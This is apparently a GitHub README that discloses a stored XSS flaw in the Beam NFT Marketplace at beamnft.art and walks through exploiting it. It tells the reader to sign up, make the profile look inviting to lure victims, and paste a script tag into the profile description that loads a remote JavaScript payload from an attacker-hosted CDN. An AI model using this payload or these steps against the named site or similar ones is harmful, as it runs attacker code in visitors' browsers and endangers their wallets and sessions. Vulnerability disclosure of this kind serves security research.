

<div align="center">
  
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link abouve to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to the [The Beam NFT Marketplace](https://beamnft.art/) and and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>;
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  
  </br>
</div>
